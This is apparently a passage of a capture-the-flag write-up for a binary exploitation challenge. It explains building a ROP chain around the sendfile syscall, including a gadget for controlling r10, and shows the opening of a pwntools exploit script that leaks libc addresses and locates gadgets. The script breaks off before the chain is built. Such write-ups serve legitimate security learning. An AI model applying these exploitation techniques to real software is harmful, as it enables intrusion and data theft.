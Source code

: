 And its prototype is as:
```C
       ssize_t sendfile(int out_fd, int in_fd, off_t *_Nullable offset,
                        size_t count);
```

And in syscall table page:
```
%rax 40
%rdi int out_fd
%rsi int in_fd 
%rdx loff_t *offset
%r10  size_t count
```

It is a bit special syscall, as it requires controlling r10 which is not very common in rop in my experience.

Here is the gadget allowed me to control it.

```
0x0000000000119170: endbr64; mov r10, rcx; mov eax, 0x28; syscall;
```

We don't bother with `endbr64` instruction, it was the only gadget that set `r10`, we first have to set `rcx` 
and then move it to `r10`, it even sets the syscall to `40` hex `0x28` which is sendfile and call syscall.

And that is all, with all these gadgets, we can turn the program to read a flag and send to us
instead of what it had to do initially.

Here is my final exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import struct

#context.terminal = 'kitty'
context.terminal = ["tmux", "splitw", "-h"]
logger = logging.getLogger(__name__)

exe = context.binary = ELF(args.EXE or './oorrww_patched')
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

io = process([exe.path])
#io = remote('193.148.168.30', 7666)
#gdb.attach(io, gdbscript=gdbscript)

fleak = io.recvline().strip().decode().split()
buffer_leak = float.hex(float(fleak[5]))
buffer_leak = int(buffer_leak[5:17], 16)

scanf_leak = float.hex(float(fleak[6][:-1]))
scanf_leak = int(scanf_leak[5:17], 16)

libc.address = scanf_leak - libc.symbols['__isoc99_scanf']
print("LIBC @ {}".format(hex(libc.address)))

rop = ROP(libc)
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
pop_rsi = (rop.find_gadget(['pop rsi', 'ret']))[0]
pop_rax = (rop.find_gadget(['pop rax', 'ret']))[0]
pop_rdx = libc.address + 0x11f2e7
syscall = (rop.find_gadget(['syscall', 'ret']))[0]
leave_ret = (rop.find_gadget(['leave', 'ret']))[0]
```